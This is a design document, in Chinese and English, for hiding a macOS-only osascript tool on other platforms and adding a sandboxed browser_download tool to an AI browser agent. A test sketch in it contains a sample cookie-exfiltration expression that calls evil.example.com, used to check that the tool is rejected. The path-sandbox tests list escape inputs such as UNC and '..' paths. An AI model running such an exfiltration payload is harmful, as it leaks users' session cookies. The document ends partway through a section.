



# Windows 浏览器下载 UX + 平台工具过滤

| 字段 | 值 |
|------|-----|
| **Title** | Windows browser download UX + platform tool filtering |
| **Author** | TBD |
| **Date** | 2026-07-29 |
| **Status** | **P0 shipped 2026-07-29** (Pi APPROVE_WITH_NITS) · **P1.0 round 3 2026-07-30** (BD-D13 production busy-entry + BD-ALIAS createToolExecutor sandbox tests; unit tests green; G3 manual deferred) |
| **Related** | ADR-007 · ADR-014 · ADR-015 · ADR-017 · ADR-018 · **ADR-020** · sprint T6.4 · production thread `c7tlnl` |
| **Repo plan path** | `docs/superpowers/plans/2026-07-29-windows-download-platform-tools.md` |
| **Revision** | R1 — 2026-07-29 staff design review (all open issues addressed) |

---

## Overview

Windows（及一切非 Darwin）用户在「从网页下载 Skill 到本机 Downloads」类流程上会踩到可复现失败链：`click` 只接受 CSS（`button:has-text("下载")` 失败）→ 误调 macOS-only 的 `osascript_eval`（工具表仍暴露）→ 确认弹窗/失败后再用 `shell_exec`+curl 猜 API → 404。根因是 **平台工具可见性与门禁时机不一致**、**无文本点击**、以及 **浏览器下载没有一等公民 LLM tool**。

### Ship decision（按 phase）

| Phase | 状态 | 说明 |
|-------|------|------|
| **P0** | **Approve for PR-1 now** | schema 过滤 + L2 前 early-reject + CI 测试分叉；与 transport 无关 |
| **P1** | **P1.0 round 3 adversarial fixed** (2026-07-30) | Alias→sandbox via createToolExecutor tests; busy-before-TabQueue extracted+unit-tested production entry; G3 manual pending live Chrome |
| **P2** | Optional polish | 独立 `click({text})` 若已在 P1 以共享 finder 交付，P2 仅 prompt/browse 收尾 |

增量交付：

1. **P0（立即，implementation-ready）**：LLM 工具表过滤 `osascript_eval`（non-darwin）；在确认 UI **之前** early-reject；platform-aware 测试；`getAllToolDefinitions` 供 pack 校验。
2. **P1（provisional）**：一等 `browser_download`（`selector` **或** `text`）→ 等文件落盘；路径沙箱对齐 host-use；tab lease / worker 策略；**传输层以 spike 结果锁定**。
3. **P2（可选）**：browse skill / system prompt 平台化；若 P1 已交付 text finder，则不再重复造轮。

不引入新 runtime；遵守 ADR-020 与现有 `host_app` / `host_computer` 平台门禁模式。

---

## Background & Motivation

### 生产失败链（thread `c7tlnl` + 代码核对）

| 步骤 | 现象 | 代码真相 |
|------|------|----------|
| 1 | `click` 用 Playwright 选择器 `button:has-text("下载")` 失败 | `click` 参数仅为 CSS；`browser-bridge` → `document.querySelector` |
| 2 | 有限的 `evaluate` / HTML 抓取 | `evaluate` 走 L2，成本高 |
| 3 | **错误调用 `osascript_eval`** | 工具表全平台暴露；执行时才报 macOS-only |
| 4 | 回退 `shell_exec` + curl 猜 API | 无浏览器 cookie；易 404 |

**用户可见 win（G3）**：Windows 上 agent 能用 **可见中文「下载」** 触发浏览器下载并返回 Downloads 内真实路径，**全程不调用 osascript / shell curl**。

### 代码根因（符号锚点；行号会漂移）

1. **`companion/src/bridge/tool-definitions.ts`**
   - `getToolDefinitions()` 无条件包含 `osascript_eval`。
   - 描述写明 macOS-only，但 **仍进入 OpenAI function-calling 列表**。
   - 模块级 `cachedToolDefinitions = getToolDefinitions()` 在 import 时缓存。
   - `packs/validator.ts` `knownToolNames()` 调用 `getToolDefinitions()`——过滤后会影响 pack 校验（见 §0.1）。

2. **`companion/src/llm/adapter.ts`**
   - Rule 8：`osascript_eval is macOS-ONLY…`
   - tools 组装：`[...getToolDefinitions(), ...mcpTools, ...]` **无平台过滤**。
   - tool schema 服从度高于 system prompt。

3. **`companion/src/server.ts` — `createToolExecutor`**
   - `L2_GATE_TOOLS` **无条件**含 `osascript_eval`。
   - 对比：`hostAppGated` / `hostComputerGated` 仅 `win32 \|\| darwin` 进 L2。
   - `executeCompanionTool` 内 platform 检查在 token/长度之后（`os.platform() !== "darwin"` 分支）。
   - multi-agent / cookie gates **合法地**在 L2 之前；early-reject 应对齐「**在确认 UI 之前**」，而非字面「函数第一行」。

4. **`companion/src/message-router.ts`**
   - `case "osascript_eval"` 可走 WS；最终 `session.executeTool` → 同一 `createToolExecutor`，故 **仅 executor early-reject 已可挡 L2**；router 内仍应 **绝对首行** platform fail，避免 non-darwin 先撞 `checkHighRiskExecution`「Security Block」等错误语义。

5. **`chrome-extension/src/background/browser-bridge.ts`**
   - 调试器 **per-tab** attach（`chrome.debugger.attach({ tabId }, "1.3")`），仅 `Page.enable`。
   - **无** `chrome.debugger.onEvent` 监听器。
   - private `download()` 仅 `Browser.setDownloadBehavior`，无等待完成。
   - Manifest **无** `"downloads"` permission（`package.json` permissions: debugger, tabs, cookies, …）。

6. **`companion/src/orchestrator/constants.ts`**
   - `TAB_LEASE_TOOLS` 含 `click` / `evaluate` / `get_page_text` 等，**无** download 类。
   - `WORKER_HARD_DENY` 含 `osascript_eval` 等，**无** download 策略。

7. **`companion/builtin-skills/browse.md`** — non-darwin 仍诱导 osascript。

8. **Sprint T6.4** — 历史文案写 `Page.downloadProgress`；Chromium 现行下载 API 主要为 **Browser.*** 域（见 §1.0）。

---

## Goals & Non-Goals

### Goals

| ID | Goal |
|----|------|
| G1 | non-darwin 上 LLM **看不见** `osascript_eval` |
| G2 | 任何路径（LLM / WS / 残留 tool_call）在 non-darwin 上 **确认 UI 前** typed fail |
| G3 | **c7tlnl 用户可见 win**：Windows 上用可见文本「下载」完成浏览器下载 → Downloads 真实路径，无 osascript/shell curl |
| G4 | 下载目标路径默认平台化且沙箱化（对齐 host-use `isWithinRoot`） |
| G5 | 增量 PR：每 PR 可独立 review / merge / 回滚；P0 不依赖 P1 |
| G6 | 测试：P0 filter + early-reject + **现有 M3' 平台分叉**；P1 含 path 纯函数、worker/lease、传输 mock 序列 |

### Non-Goals

| ID | Non-Goal |
|----|----------|
| NG1 | 删除 macOS 上的 `osascript_eval` |
| NG2 | 完整 Playwright 选择器引擎（`:has-text` 伪类解析） |
| NG3 | 用 `shell_exec` / PowerShell 作为浏览器下载主路径 |
| NG4 | 自动把下载文件写入任意 project skill 目录 |
| NG5 | 新 Agent runtime / 新确认方言 / 新 Side Panel 一级入口 |
| NG6 | **导航触发**的 Content-Disposition 下载（无 click/text）— P1.0 **out of scope**（见 D12） |
| NG7 | 下载后 **自动执行 / 打开 / 解压** 文件 |
| NG8 | 用 extension **复制 cookie 后 fetch URL** 旁路下载（扩大 auth 面；见 Alt G） |

---

## Key Decisions

| # | Decision | Rationale |
|---|----------|-----------|
| **D1** | **平台过滤以 tool schema 为准，prompt 为辅** | Rule 8 已失败；tool table wins。 |
| **D2** | **`osascript_eval` 仅 `platform === "darwin"` 才进 L2** | 对齐 `hostAppGated`；避免 Windows 无意义确认。 |
| **D3** | **Early-reject：executor 在确认 UI 之前 + message-router case 绝对首行 + executeCompanionTool 保留 guard** | 两路（LLM / WS）均 fail-closed；不要求绕过多 agent 前置门。 |
| **D4** | **`getToolDefinitions(platform?)` 过滤；`getAllToolDefinitions()` 全量** | LLM 见过滤表；pack validator / `getToolDefinition` 用全量名集合。 |
| **D5** | **复合工具 `browser_download`**（定位 + 等完成） | 半吊子 SPI 继续导致 shell 猜测。 |
| **D6** | **默认落盘 = 用户 Downloads** | 匹配 Chrome 默认与 host-use Downloads 根。 |
| **D7** | **路径沙箱镜像 host-use win `isWithinRoot`** | case-fold；resolve+realpath 容器；拒 UNC/`\\?\`/device。 |
| **D8** | **Surface = L1**；Chrome 写盘，非 host_write | 不要求 biometric。 |
| **D9** | **不鼓励 shell 下载登录态网页附件** | 缺 cookie；破坏安全叙事。 |
| **D10** | **P1.0 强制 `text` 或 `selector`（至少一）；text 在 P1 与 extension 同 PR 交付** | 否则 c7tlnl 仍卡在中文按钮。独立 `click({text})` 可复用同一 finder。 |
| **D11** | **osascript 不走域白名单**（ADR-007 H4） | 保持。 |
| **D12** | **P1.0 仅「交互触发」下载**（click/text 后的 download）；纯 navigate + Content-Disposition **out of scope** | 降低范围；后续可加 `wait_download` 原子。 |
| **D13** | **同 tab 串行：`DOWNLOAD_BUSY`**；并发第二调用拒绝 | 避免事件串台。 |
| **D14** | **工具结束（成功/超时/失败）必须 restore `setDownloadBehavior`**（或等价默认） | 避免用户浏览被永久钉死到 agent path。 |
| **D15** | **传输层：默认假设 `chrome.downloads` 为 primary；CDP Browser.* 为 secondary/hint — 以 §1.0 spike 结果锁定** | Tab debugger 未证明 Browser-domain 事件可达；现无 `onEvent`。 |
| **D16** | **`browser_download` ∈ `TAB_LEASE_TOOLS`**；worker **允许**但 **强制 default Downloads only**（strip 自定义 path） | ADR-015 排他；Q3 落地为代码路径。 |
| **D17** | **无 `features.browser_download` config flag** | 无现有 `features.*` 先例；版本耦合发版 + `NOT_IMPLEMENTED` 优于死 flag。 |
| **D18** | **Public tool 名仅 `browser_download`**；extension 去掉或 alias 未暴露的 `download` case | 避免与 `computer.model.download` 混淆。 |

---

## Proposed Design

### Architecture



---

### P0 — Platform tool filtering + early reject  
**Status: implementation-ready**

#### 0.1 工具表：全量 vs 过滤

**文件：** `companion/src/bridge/tool-definitions.ts`

```typescript
import * as os from "os"

export const DARWIN_ONLY_TOOL_NAMES = new Set(["osascript_eval"])

/** Pure: whether this tool may enter L2 / execution on platform. */
export function isOsascriptAvailable(platform: NodeJS.Platform): boolean {
  return platform === "darwin"
}

export function shouldL2GateOsascript(platform: NodeJS.Platform): boolean {
  return platform === "darwin"
}

/** Unfiltered catalog — pack validator, getToolDefinition, schema tests. */
export function getAllToolDefinitions(): ToolDefinition[] {
  return ALL_TOOL_DEFINITIONS // static array including osascript_eval
}

/** LLM-visible set for this process (or injected platform in tests). */
export function getToolDefinitions(
  platform: NodeJS.Platform = os.platform(),
): ToolDefinition[] {
  return getAllToolDefinitions().filter(
    (t) =>
      !DARWIN_ONLY_TOOL_NAMES.has(t.function.name) ||
      isOsascriptAvailable(platform),
  )
}
```

| Consumer | API |
|----------|-----|
| `adapter.ts` LLM tools | `getToolDefinitions()` + 二次 filter |
| `packs/validator.ts` `knownToolNames()` | **`getAllToolDefinitions()`**（改 import） |
| `getToolDefinition(name)` | 在 **全量** 表查找 |
| node:test 跨平台 | `getToolDefinitions("win32")` / `"darwin"` 注入，不 mock `process.platform` |

缓存：存 `ALL_TOOL_DEFINITIONS`；过滤按调用计算（O(n) 可忽略）。

**Adapter 二次保险：**

```typescript
tools = tools.filter(
  (t) =>
    !DARWIN_ONLY_TOOL_NAMES.has(t.function.name) ||
    isOsascriptAvailable(os.platform()),
)
```

#### 0.2 两路调用图 + early-reject 位置



**`createToolExecutor`（`server.ts`）：**

- 将 `osascript_eval` 移出无条件 `L2_GATE_TOOLS`。
- 在即将进入「会 `securityConfirmations.request`」的分支之前（可在 multi-agent TAB_ID 检查之后，**必须在** confirmation request 之前）：

```typescript
if (toolName === "osascript_eval" && !shouldL2GateOsascript(os.platform())) {
  const result = {
    success: false,
    error:
      "osascript_eval is macOS-only. Use get_page_text with tabId instead (cross-platform).",
  }
  logToolFinish(toolCallId, toolName, startedAt, result)
  return result
}

const osascriptGated =
  toolName === "osascript_eval" && shouldL2GateOsascript(os.platform())
// gate: L2_GATE_TOOLS.includes || osascriptGated || hostAppGated || hostComputerGated
```

**保留** `executeCompanionTool` 内 platform guard（纵深）。

**`message-router.ts`：** case 体 **第一语句**（早于 url/expression required、token、`checkHighRiskExecution`）：

```typescript
case "osascript_eval": {
  if (!isOsascriptAvailable(os.platform())) {
    return {
      type: "tool.result",
      id: msg.id,
      success: false,
      error:
        "osascript_eval is macOS-only. Use get_page_text with tabId instead (cross-platform).",
    }
  }
  // ... existing validation
}
```

#### 0.3 错误可恢复性

现有 `classifyError`（`security.ts`）对子串 **`macos-only`** 返回 `recoverable`。  
**必须**保留 error 字符串中的 `macOS-only`（大小写在 classify 前 lowercased）。

#### 0.4 P0 测试（含现有套件分叉）

| 测试 | 期望 |
|------|------|
| `getToolDefinitions("win32")` / `"linux"` | 不含 `osascript_eval` |
| `getToolDefinitions("darwin")` | 含有 |
| `getAllToolDefinitions()` | 始终含 `osascript_eval`（pack 不因 win CI 拒白名单） |
| `shouldL2GateOsascript("win32")` | false |
| Executor non-darwin | **不**出现 `security.confirmation.request`；error 匹配 `/macos-only/i` |
| `classifyError(earlyRejectError)` | `"recoverable"` |
| **`security-gates` M3' §6.2.9** | **平台分叉**（见下） |

**M3' 测试改写（PR-1 必做）：**

```typescript
test("M3' §6.2.9: osascript_eval platform gate", async () => {
  if (os.platform() !== "darwin") {
    const executeTool = createToolExecutor(serverSideWs)
    // Must NOT emit confirmation
    const result = await executeTool("tc_m3_osascript", "osascript_eval", {
      url: "https://example.com",
      expression: "fetch('https://evil.example.com/?' + document.cookie)",
    })
    assert.equal(result.success, false)
    assert.match(result.error!, /macos-only/i)
    // optional: assert no pending confirmation messages
    return
  }
  // existing god-mode + critical → confirmation → deny path
  ...
})
```

优先使用 **`shouldL2GateOsascript` 注入/纯函数**，避免 brittle `process.platform` mock；CI 在 Windows 上跑 early-reject 分支，在 darwin 上跑 L2 分支。

---

### P1 — First-class `browser_download`  
**Status: design provisional pending §1.0 spike**

#### 1.0 Transport spike（PR-4 前置门禁）

**Exit criteria（全部勾选才允许锁定实现）：**

在 **Windows + Chrome MV3 + 当前 extension tab debugger** 上记录一页 spike note（可附在本 plan 附录或 `docs/decisions/`）：

| # | Check | Pass? |
|---|--------|-------|
| S1 | Tab session 上 `Browser.setDownloadBehavior` 是否成功 | |
| S2 | 是否存在可达的 download **完成**信号（Browser-domain event / 其他） | |
| S3 | 若无 event：仅靠 `chrome.downloads.onCreated/onChanged` 是否足够完成闭环 | |
| S4 | `downloads` permission 对 MV3 side panel + background 的影响 | |
| S5 | restore download behavior 后用户手动下载是否恢复默认 | |
| S6 | 建议的 Chrome 大版本（与 CI 扩展测试一致） | |

**默认决策（spike 前）：**

| Priority | Mechanism | Role |
|----------|-----------|------|
| **Primary** | **`chrome.downloads`**（`onCreated` / `onChanged` state=`complete`；可选 `filename`） | 完成可观测性；需加 `"downloads"` permission |
| **Secondary** | CDP **`Browser.setDownloadBehavior`**（路径提示）+ 若 spike 证明可用则 **`Browser.downloadWillBegin` / `Browser.downloadProgress`** | 非 Primary，除非 S1+S2 全绿 |
| **Forbidden as sole path** | 盲 click + sleep | 无成功证明 |

**事件命名规范（废除 T6.4 的 Page.\* 表述）：**

- 使用 Chromium CDP **Browser** 域：`Browser.setDownloadBehavior`、`Browser.downloadWillBegin`、`Browser.downloadProgress`（以实现时 CDP 版本为准，写入 spike note）。
- 若采用 CDP 事件：extension **必须**注册 `chrome.debugger.onEvent`，按 `tabId`/session 过滤，timeout/finally **移除** listener 并 detach 策略与现有一致。

**若 S1/S2 失败：** 实现 **仅** `chrome.downloads` primary（Alt F 胜出）；CDP setDownloadBehavior 仅在 API 接受时尽力设置 path，失败不阻塞。

#### 1.1 产品语义（含 c7tlnl）

**工具名：** `browser_download`（D18）

| 参数 | 类型 | 说明 |
|------|------|------|
| `tabId` | number | 必填 |
| `selector` | string? | CSS；与 `text` **至少填一** |
| `text` | string? | 可见文本子串/精确（`exact?: boolean`，默认 contains） |
| `downloadPath` | string? | 可选目录；默认用户 Downloads；必须过沙箱 |
| `filenameHint` | string? | 匹配完成事件 |
| `timeoutMs` | number? | 默认 60000；上限 120000 |

**P1.0 必须实现 text 解析**（共享 `findElementByText`，可供后续 `click` 复用）——**不** defer 到「可选 P2」才闭合 G3。

成功返回：

```json
{
  "success": true,
  "data": {
    "path": "C:\\Users\\…\\Downloads\\skill-foo.zip",
    "filename": "skill-foo.zip",
    "bytes": 12345,
    "state": "completed",
    "url": "https://…"
  }
}
```

Typed errors：`DOWNLOAD_TIMEOUT` · `PATH_ESCAPE` · `ELEMENT_NOT_FOUND` · `ELEMENT_AMBIGUOUS` · `DOWNLOAD_CANCELED` · `DOWNLOAD_BUSY` · `NOT_IMPLEMENTED` · `TAB_ID_REQUIRED` · `WORKER_PATH_DENIED`。

#### 1.2 序列（primary = chrome.downloads）

```mermaid
sequenceDiagram
  participant LLM
  participant Comp as createToolExecutor
  participant PS as assertDownloadPathAllowed
  participant Ext as browser-bridge
  participant CD as chrome.downloads
  participant Page as tab DOM

  LLM->>Comp: browser_download{tabId, text:"下载"}
  Comp->>Comp: TAB_LEASE if multi-agent
  Comp->>Comp: worker → force default Downloads / strip path
  Comp->>PS: resolve + isWithinRoot + realpath container
  Comp->>Ext: tool.execute browser_download (resolved absolute path only)
  Ext->>Ext: register onCreated/onChanged; optional setDownloadBehavior
  Ext->>Page: resolve text/selector → click
  CD-->>Ext: complete
  Ext->>Ext: restore download behavior (D14)
  Ext-->>Comp: {path, filename, bytes}
```

#### 1.3 默认路径

| Platform | Default directory |
|----------|-------------------|
| win32 | `path.join(process.env.USERPROFILE \|\| os.homedir(), "Downloads")` |
| darwin / linux | `path.join(os.homedir(), "Downloads")` |

`getUserDownloadsDir()` in `companion/src/platform.ts`（或 `path-sandbox.ts`）。

#### 1.4 路径沙箱（对齐 host-use win）

**不要**自创弱版 `realpathSync(absDir)` 直接打目标目录。

复用/导出与 `companion/src/host-use/win/adapter.ts` 同构逻辑：

```typescript
// Mirrors host-use/win/adapter.ts isWithinRoot (exported for tests)
export function isWithinRoot(resolved: string, root: string): boolean {
  const resolvedLower = path.resolve(resolved).toLowerCase()
  const rootLower = path.resolve(root).toLowerCase()
  return (
    resolvedLower === rootLower ||
    resolvedLower.startsWith(rootLower + path.sep)
  )
}

/**
 * Allow download directory if:
 * 1) path.resolve(candidate) isWithinRoot some allowlisted root
 * 2) realpath of existing path OR realpath(dirname) for nonexistent leaf
 *    stays within root (junction / TOCTOU)
 * Reject: UNC (\\server\share), \\?\ device prefixes used to escape,
 *         other-drive relatives that resolve outside roots, ".." escapes
 */
export function assertDownloadPathAllowed(
  candidate: string,
  roots: string[],
  fsOps: { existsSync; realpathSync },
): string {
  const resolved = path.resolve(candidate)
  // reject UNC / naked device paths early (win)
  if (/^\\\\/.test(resolved) || /^\/\/[^/]/.test(candidate)) {
    throw new PathEscapeError(candidate)
  }
  if (!roots.some((r) => isWithinRoot(resolved, r))) {
    throw new PathEscapeError(candidate)
  }
  const container = fsOps.existsSync(resolved)
    ? fsOps.realpathSync(resolved)
    : fsOps.realpathSync(path.dirname(resolved))
  if (!roots.some((r) => isWithinRoot(container, r))) {
    throw new PathEscapeError(candidate)
  }
  return resolved
}
```

P1.0 **roots = `[getUserDownloadsDir()]` only**。

**路径信任模型（修正过声明）：**

- **不存在** companion→extension 的 path HMAC/签名机制。
- 正确模型：companion **丢弃 LLM 原始 path**，只把 **`assertDownloadPathAllowed` 后的绝对路径** 写入 `tool.execute` params；extension **只使用**该字段，不信任 chat 侧其它 path 来源。
- WS 鉴权（`ws-auth` + origin）保证 peer 是扩展；纵深仍要求 extension 对明显 UNC 再拒一次（best-effort）。

#### 1.5 Multi-agent / worker（ADR-015）

**PR-5 强制清单：**

| Item | Action |
|------|--------|
| `TAB_LEASE_TOOLS` | **加入** `browser_download`（与 `click` 同级；缺 tabId → `TAB_ID_REQUIRED`） |
| Worker 自定义 path | **禁止**：worker 线程在 `createToolExecutor` 中若 `agent_role==="worker"` 且 `downloadPath` 非空且非默认 → `WORKER_PATH_DENIED`；或直接 **strip** 为 default 并 audit |
| Worker 工具可见性 | **不**加入 `WORKER_HARD_DENY`（允许 default Downloads）；与 Q3 一致 |
| Tests | multi-agent 无 tabId → `TAB_ID_REQUIRED`；worker + `downloadPath=C:\Evil` → deny 且 **payload 永不含** 该 path |

#### 1.6 与 host_write / workspace / shell

| 能力 | 适用 |
|------|------|
| `browser_download` | 网页交互 → 用户 Downloads |
| `workspace_*` | 已绑定 DevSec workspace |
| `host_write` move | allowlist 内移动（L2+biometric） |
| `shell_exec` | **禁止**作为登录态下载推荐路径 |

#### 1.7 Extension 实现要点

- **Public handler 名：** `browser_download`。
- **废弃** 未暴露 LLM 的 `case "download"`：删除或 `case "download": return this.browserDownload(...)` 过渡一期后删除。
- **Primary：** `chrome.downloads` 监听 + 完成后返回 `filename` 绝对路径（`chrome.downloads.search` / `DownloadItem.filename`）。
- **Permission：** `package.json` manifest.permissions 增加 `"downloads"`（spike S4 确认）。
- **D13：** 同 tab `DOWNLOAD_BUSY` 互斥。
- **D14：** `try/finally` restore download behavior（若曾 set CDP behavior）。
- **Text finder：** 与 P1.0 同 PR；多匹配 → `ELEMENT_AMBIGUOUS` + count + 摘要。

#### 1.8 L2 / 确认（P1.0 / P1.1）

| 条件 | Gate |
|------|------|
| path = default Downloads | **无 L2**（L1）；接受 agent 可下恶意文件的 **既有浏览器风险**，但：永不自动执行文件（NG7）；打 `browser_download.complete` 审计 |
| 可选 soft control（产品） | 每 origin 每 session **首次** download 确认——**非 P1.0 必做**；记 Open Q |
| path ∈ 扩展 allowlist（P1.1） | 复用 **现有** `security.confirmation` 队列（evaluate 家族 UI），**不**新 L2-class / 新方言 |
| path 越界 | 硬拒绝 |
| `auto_approve_dangerous` | **不得**放宽 path sandbox |

#### 1.9 P1 测试矩阵（CI gate；手工为辅）

**PR-3 `assertDownloadPathAllowed`（纯函数，无 Chrome）：**

| Case | Expect |
|------|--------|
| default Downloads | ok |
| `Downloads\sub` 已存在 / 不存在 | ok（dirname realpath） |
| `Downloads\..\..\Windows` | PATH_ESCAPE |
| 不同盘符 `D:\...`（win） | PATH_ESCAPE |
| case fold `C:\USERS\...\DOWNLOADS` | ok on win |
| UNC `\\evil\share` | PATH_ESCAPE |
| junction 逃出（mock realpath） | PATH_ESCAPE |

**PR-4 extension：**

| Case | Expect |
|------|--------|
| mock `chrome.downloads` created→complete | success + path |
| timeout 无 complete | DOWNLOAD_TIMEOUT，restore behavior |
| busy 二次调用 | DOWNLOAD_BUSY |
| text 单匹配 | click 路径调用 |
| text 多匹配 | ELEMENT_AMBIGUOUS |

**PR-5 companion：**

| Case | Expect |
|------|--------|
| malicious downloadPath | **never** appears in forwarded `tool.execute` params（spy/mock dispatch） |
| worker + custom path | WORKER_PATH_DENIED / stripped |
| multi-agent no tabId | TAB_ID_REQUIRED |
| schema selector+text 皆空 | zod reject |
| 手工 c7tlnl | 文档化 manual only；**不**作 CI 唯一门 |

---

### P2 — Prompt / skill polish（及可选独立 click text）

若 P1 已交付 `findElementByText`：

- **`click` / `dblclick`** 可薄封装同一 finder（小 PR，可与 PR-5 并行）。
- **`browse.md` + Rule 8 平台分支**：归入 **PR-2**（P0.1 hygiene，可与 PR-1 同发）——**不是**产品 P2 text-click。

产品 **P2** 仅指：剩余 UX 文案、下载章节、禁止 curl 叙事收口。

---

## API / Interface Changes

### P0

| Surface | Change |
|---------|--------|
| `getAllToolDefinitions()` | 新；全量 |
| `getToolDefinitions(platform?)` | 过滤 |
| `isOsascriptAvailable` / `shouldL2GateOsascript` | 纯函数导出 |
| `packs/validator` | 改用全量名集合 |
| L2 / WS | non-darwin 无确认窗 |

### P1

| Surface | Change |
|---------|--------|
| `browser_download` tool | schema + zod |
| `TAB_LEASE_TOOLS` | + browser_download |
| Extension permission | + `downloads`（若 primary） |
| Extension case | `browser_download`；deprecate `download` |
| `platform.ts` / `path-sandbox.ts` | Downloads + assert |

### 无 config flag

不引入 `features.browser_download`。版本漂移时 extension 返回 `NOT_IMPLEMENTED`。

---

## Data Model Changes

无 DB migration。`config.json` P1.0 无新键。P1.1 可选确认策略不新增 god-mode 类全局键。

---

## Alternatives Considered

### Alt A — 仅加强 system prompt  
**Reject** — 生产已证伪。

### Alt B — 工具表保留，仅 early-reject  
**Reject as sole fix** — 仍浪费 tool-call；过滤必须有。

### Alt C — 删除全平台 osascript  
**Reject** — macOS LAST RESORT 回归。

### Alt D — MCP + curl 技能包  
**Reject as primary** — 无会话 cookie。

### Alt E — 原子 set_path + click + wait 全暴露  
**Reject as LLM surface** — 内部可原子；LLM 见复合工具。

### Alt F — **`chrome.downloads` 作为 primary**（spike 默认）  
- **Pros：** 完成事件成熟；不依赖 tab debugger 的 Browser-domain；与「无 onEvent」现状匹配。  
- **Cons：** 需 `downloads` permission；filename 策略与用户 Chrome 设置交互。  
- **Decide：** **P1 默认 primary**；若 spike S1+S2 证明 CDP 全链路可靠，可升 CDP 为并列，但不得单独依赖未验证的 Page.\* 事件。

### Alt G — Extension 复制 cookie 后 companion/extension fetch 下载  
- **Pros：** 可控路径。  
- **Cons：** 扩大 cookie 外泄与 CSRF 面；绕过浏览器下载安全提示。  
- **Reject**（NG8）。

### Alt H — Playwright/Puppeteer sidecar  
- **Reject** — 新 runtime；违背 ADR-020 / 双层拓扑。

---

## Security & Privacy Considerations

| Threat | Severity | Mitigation |
|--------|----------|------------|
| 无效 osascript 确认疲劳 | Medium | P0 |
| 写盘逃逸 | High | `isWithinRoot` + realpath 容器；companion 替换 path |
| Agent 下载 malware 到 Downloads | Medium | NG7 不执行；审计 complete；可选 per-origin 首下确认（非 P1.0） |
| Worker 写敏感目录 | Medium | strip/deny 非 default path |
| 「签名 path」误解 | — | **已删除该 claim**；改为 companion 校验后下发 |
| osascript 域白名单绕过 | High | ADR-007 H4 不变 |
| auto_approve 放宽 path | Medium | 明确分离 |

---

## Observability

| Event | Fields |
|-------|--------|
| `tool.platform_rejected` | tool, platform, thread_id |
| `browser_download.start` | tabId, path_root, has_text, has_selector |
| `browser_download.complete` | filename, bytes, duration_ms, transport=`downloads`\|`cdp` |
| `browser_download.timeout` / `path_escape` / `busy` | … |

P0 reject &lt; 5ms；P1 timeout 默认 60s。

---

## Rollout Plan

| Phase | Mechanism | Rollback |
|-------|-----------|----------|
| P0 | 无 flag；行为收紧 | revert PR-1 |
| P1 | **版本耦合** companion+extension 同发；无 features flag | 旧扩展 → `NOT_IMPLEMENTED`；可隐藏 tool 的紧急手段是 revert |
| P2 | prompt/skill | revert 文档 |

---

## ADR-020 capability declaration（分 phase）

### P0 only

```text
Surface:      L1          # schema filter only; no new tools
L2-classes:   (none)      # removes erroneous L2 on non-darwin
Compose:      none
Autonomy:     single
Trust:        platform-gate (osascript darwin-only L2)
Channel:      community
```

### P1.0（default Downloads + text/selector）

```text
Surface:      L1
L2-classes:   (none)
Compose:      none        # optional browse skill text later
Autonomy:     single      # TAB_LEASE_TOOLS membership under multi-worker
Trust:        path-allowlist (Downloads);
              tab-lease (ADR-015);
              no auto-exec of downloads
Channel:      community
```

### P1.1（optional non-default path confirm）

```text
